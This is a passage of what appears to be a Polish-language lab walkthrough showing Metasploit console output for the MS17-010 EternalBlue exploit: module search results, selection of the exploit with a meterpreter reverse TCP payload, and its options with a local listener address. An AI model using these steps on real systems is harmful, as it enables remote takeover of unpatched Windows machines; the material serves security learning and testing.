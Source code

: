 ```console
Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 4, use 4 or use exploit/windows/smb/smb_doublepulsar_rce

msf6 > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```
Kolejnym krokiem jest ustaienie odpowiedniej konfiguracji i uruchomienie narzędzia. Dostajemy się do samego serca systemu:
```console
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metaspl
                                             oit
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008
                                              R2, Windows 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2,
                                              Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7
                                             , Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.0.147    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

```